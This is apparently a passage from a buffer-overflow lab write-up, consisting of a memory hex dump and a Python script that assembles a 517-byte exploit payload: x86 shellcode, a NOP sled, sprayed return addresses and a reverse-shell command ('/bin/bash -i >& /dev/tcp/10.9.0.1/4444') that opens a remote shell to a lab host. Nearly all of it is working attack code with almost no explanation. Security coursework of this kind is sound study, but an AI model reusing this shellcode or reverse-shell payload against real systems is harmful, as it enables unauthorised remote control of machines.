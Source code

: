 ```
ffffd138: 31 c0 88 43 09 88 43 0c 88 43 47 89 5b 48 8d 4b  |1..C..C..CG.[H.K|
ffffd148: 0a 89 4b 4c 8d 4b 0d 89 4b 50 89 43 54 8d 4b 48  |..KL.K..KP.CT.KH|
ffffd158: 31 d2 31 c0 b0 0b cd 80 e8 d2 ff ff ff 2f 62 69  |1.1........../bi|
ffffd168: 6e 2f 62 61 73 68 2a 2d 63 2a 2f 62 69 6e 2f 62  |n/bash*-c*/bin/b|
ffffd178: 61 73 68 20 2d 69 20 3e 26 20 2f 64 65 76 2f 74  |ash -i >& /dev/t|
ffffd188: 63 70 2f 31 30 2e 39 2e 30 2e 31 2f 34 34 34 34  |cp/10.9.0.1/4444|
ffffd198: 20 30 3c 26 31 20 32 3e 26 31 20 20 20 20 20 20  | 0<&1 2>&1      |
ffffd1a8: 20 20 20 20 2a 41 41 41 41 42 42 42 42 43 43 43  |    *AAAABBBBCCC|
ffffd1b8: 43 44 44 44 44                                   |CDDDD|
==============================================================================


```

![alt text](image-25.png)

### Code dynamic_buffer_size.py 

```
#!/usr/bin/python3
import sys
import os

shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i >& /dev/tcp/10.9.0.1/4444 0<&1 2>&1          *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:start + len(shellcode)] = shellcode

buffer_addr = 0xffffcfb8
ret = buffer_addr + 308
for offset in range(100, 308,4):
    content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 

print(hex(content[0]))
```